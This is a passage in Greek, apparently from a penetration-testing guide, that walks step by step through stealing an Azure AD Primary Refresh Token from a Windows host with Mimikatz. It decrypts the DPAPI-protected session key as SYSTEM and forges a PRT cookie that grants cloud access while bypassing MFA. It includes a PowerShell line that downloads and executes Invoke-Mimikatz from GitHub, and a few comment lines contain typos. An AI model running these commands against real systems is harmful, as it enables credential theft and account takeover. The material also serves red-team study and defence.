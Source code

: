 ```bash
privilege::debug
sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
Το **PRT field** περιέχει το κρυπτογραφημένο refresh token (συνήθως base64 string), και το KeyValue στο ProofOfPossessionKey είναι το DPAPI-κρυπτογραφημένο session key (επίσης base64).

Στη συνέχεια, από την έξοδο **`sekurlsa::cloudap`**, αντιγράψτε το base64 blob από το **`KeyValue`** μέσα στο πεδίο `ProofOfPossessionKey` (αυτό είναι το session key κρυπτογραφημένο με DPAPI). Αυτό το κρυπτογραφημένο κλειδί δεν μπορεί να χρησιμοποιηθεί όπως είναι – πρέπει να αποκρυπτογραφηθεί χρησιμοποιώντας τα διαπιστευτήρια DPAPI του συστήματος.

Επειδή η κρυπτογράφηση DPAPI για τα μυστικά του συστήματος απαιτεί το σύστημα context της μηχανής, αναβαθμίστε το token σας σε SYSTEM και χρησιμοποιήστε το module DPAPI του Mimikatz για να αποκρυπτογραφήσετε:
```bash
token::elevate
dpapi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect

# PowerShell version
Invoke-Mimikatz -Command '"token::elevate" "dpapi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect"'
```
Το `token::elevate` θα προσποιηθεί το SYSTEM και η εντολή `dpapi::cloudapkd` με το `/unprotect` θα χρησιμοποιήσει το κύριο κλειδί DPAPI για να αποκρυπτογραφήσει το παρεχόμενο KeyValue blob. Αυτό αποδίδει το κλειδί συνεδρίας σε καθαρό κείμενο και επίσης το σχετικό Derived Key και Context που χρησιμοποιούνται για την υπογραφή:
- **Clear key** – το 32-byte κλειδί συνεδρίας σε καθαρό κείμενο (παρουσιάζεται ως hex string).
- **Derived Key** – ένα 32-byte κλειδί που προέρχεται από το κλειδί συνεδρίας και μια τιμή context (περισσότερα παρακάτω).
- **Context** – ένα 24-byte τυχαίο context που χρησιμοποιήθηκε κατά την προέλευση του κλειδιού υπογραφής για το cookie PRT.

> [!NOTE]
> Αν αυτό δεν λειτουργεί για εσάς για να προσποιηθείτε τον χρήστη, ελέγξτε την παρακάτω ενότητα χρησιμοποιώντας **`AADInternals`**.

Στη συνέχεια, μπορείτε επίσης να χρησιμοποιήσετε το mimikatz για να δημιουργήσετε ένα έγκυρο cookie PRT:
```bash
# Context is obtained from papi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect
# Derivedkey is obtained from papi::cloudapkd /keyvalue:<EncryptedKeyBlob> /unprotect
# PRT is obtained from sekurlsa::cloudap (filed "Prt"
dpapi::cloudapkd /context:<ContextHex> /derivedkey:<DerivedKeyHex> /prt:<PRT>
```
Mimikatz θα εξάγει ένα υπογεγραμμένο JWT (το `PRT cookie`) μετά τη γραμμή “Signature with key”, το οποίο περιέχει το PRT και είναι υπογεγραμμένο χρησιμοποιώντας το παράγωγο κλειδί. Αυτό το JWT μπορεί να αντιγραφεί και στη συνέχεια να χρησιμοποιηθεί σε μια διαδικτυακή συνεδρία. Για παράδειγμα, ένας επιτιθέμενος μπορεί να ανοίξει έναν περιηγητή, να μεταβεί στο `login.microsoftonline.com`, και να ρυθμίσει ένα cookie με όνομα `x-ms-RefreshTokenCredential` με την τιμή να είναι αυτό το JWT. Όταν ο περιηγητής ανανεώνεται ή πλοηγείται, το Azure AD θα θεωρήσει τη συνεδρία ως αυθεντικοποιημένη (το PRT cookie παρουσιάζεται σαν να έχει συμβεί SSO), και θα εκδώσει έναν κωδικό εξουσιοδότησης ή ένα διακριτικό πρόσβασης για τον καθορισμένο πόρο. Στην πράξη, κάποιος θα πλοηγηθεί σε έναν πόρο όπως το Office 365 ή το Azure portal; η παρουσία ενός έγκυρου PRT cookie σημαίνει ότι το Azure AD θα παραχωρήσει πρόσβαση χωρίς επιπλέον σύνδεση (παρακάμπτοντας το MFA, καθώς το PRT είναι ήδη αυθεντικοποιημένο).
